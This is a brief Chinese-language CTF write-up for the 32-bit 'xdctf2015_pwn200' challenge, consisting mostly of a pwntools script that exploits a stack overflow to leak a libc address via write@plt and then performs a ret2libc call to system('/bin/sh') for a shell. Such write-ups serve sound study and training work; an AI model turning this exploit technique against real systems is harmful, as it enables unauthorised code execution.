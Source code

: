 ```yaml
---
title: 'xdctf2015_pwn200'
date: 2024-01-16 13:00:00 +0800
categories: [32bit,leak_libc]
tags: [ctf,pwn]
---
```

- `32`位泄露`了ibc`

 ![image-20240116183210088](../assets/img/old_imgs/image-20240116183210088.png)

![image-20240116183224238](../assets/img/old_imgs/image-20240116183224238.png)

1. `main`函数中输入
2. `vuln`函数中存在溢出漏洞

非常常规的泄露`libc`,直接上代码

```python
from pwn import *
elf = ELF('./bof')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
io = process('./bof')
padding = b'A'*112
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload1)

write_addr = u32(io.recv(4))
print('puts_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))

payload2 = padding + p32(sys_addr)+p32(0x0)+p32(bin_sh_addr)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload2)
io.interactive()
```

